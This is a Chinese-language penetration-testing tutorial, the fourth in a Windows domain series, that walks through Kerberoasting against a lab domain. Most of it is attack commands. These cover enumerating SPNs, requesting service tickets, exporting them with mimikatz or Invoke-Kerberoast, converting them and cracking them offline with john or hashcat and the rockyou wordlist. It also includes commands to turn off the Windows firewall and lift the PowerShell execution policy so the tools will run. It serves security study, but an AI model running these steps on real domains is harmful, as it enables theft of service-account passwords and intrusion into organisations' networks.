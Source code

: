 ```yaml
---
title: 域渗透入门（四）Kerberoasting服务票据离线爆破密码
categories:
- WindowsDomain
tags:
- WindowsDomain
---
```

域渗透入门（四）Kerberoasting服务票据离线爆破密码

## 参考资料
- [域渗透——Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)
- [什么是kerberoasting](https://attack.stealthbits.com/cracking-kerberos-tgs-tickets-using-kerberoasting)
- [https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/](https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/)
- [https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges/](https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges/)

## 录制的视频教程
- [域渗透实践篇（五）](https://www.bilibili.com/video/BV1Dg4y1q7X6)
1. kerberoasting

## spn“服务主体名称”是什么
服务帐户利用SPN支持Kerberos身份验证。也就是说，当客户端需要访问sever提供的服务的时候，那么就需要使用spn查询有哪些服务。

这种spn扫描，是正常的，在内网中，客户端想要访问服务器的资源，都需要想DC域控查询服务主体名称。就好像上火车要查询列车编号一样。

## 如何查询spn

```
setspn -q */*			#列出域内的spn服务主体名称，这条命令向域控查询信息，所以需要有域控服务器
---
https://github.com/nidem/kerberoast		#这是脚本的下载地址
./GetUserSPNs.ps1		#使用脚本查询spn服务主体名称
---
klist
查看内存中的票据
---
通过spn，申请service ticket服务票据
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
```
方法一（mimikatz导出票据，tgsrepcrack.py破解票据）：
```
导出申请的服务票据
mimikatz.exe "kerberos::list /export" exit
导出的票据后缀名kirbi
缺点：目标主机上传mimikatz，会被杀软删除掉，必须关闭防火墙
---
爆破服务票据
python tgsrepcrack.py test.txt 1.kirbi
遇到错误，执行失败。github上，tgsrepcrack.py这个脚本从python2升级到了python3，也许因此出了bug。
```
方法二（mimikatz导出票据，kirbi2john.py将导出的1.kirbi转换为hashcat可以破解的格式，使用hashcat破解）：
```
---
从kirbi文件中提取出Kerberos tickets
python /usr/share/john/kirbi2john.py 2-40a00000-jerry@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi > output.txt

output.txt的密码类型是Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4]
---
使用hashcat或者john the ripper，爆破output.txt 

john --format=krb5tgs output.txt --wordlist=/usr/share/wordlists/rockyou.txt
---
hashcat -m 13100 output.txt /usr/share/wordlists/rockyou.txt --force
```
方法三——Invoke-Kerberoast导出票据，hashcat破解：
```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

执行没有任何结果
import-module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
提示没有AdminCount参数

---
Invoke-Kerberoast -OutputFormat Hashcat | fl
Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation

```
## windows不允许执行powershell
运行powershell脚本时，遇到“无法加载文件，因为在此系统禁止执行脚本”

在powershell面板下输入，`Set-ExecutionPolicy Unrestricted`，再输入“Y”，即可运行ps脚本

## cmd关闭防火墙
`NetSh Advfirewall` `set` `allprofiles state off`
`Netsh Advfirewall show allprofiles`

netsh firewall set opmode mode=disable

## 遇到的问题
爆破服务票据密码的时候，py脚本提示
`ImportError: No module named pyasn1.type`

安装一下模块， `pip install pyasn1`

---
运行这条命令的时候`python tgsrepcrack.py  test.txt 1.kirbi`
提示：
```
  File "C:\python27\lib\ntpath.py", line 115, in splitdrive
    if len(p) > 1:
TypeError: object of type 'file' has no len()
AttributeError: 'file' object has no attribute 'rfind'
```
原因，作者将脚本从py2升级py3，脚本有bug无法正常执行。

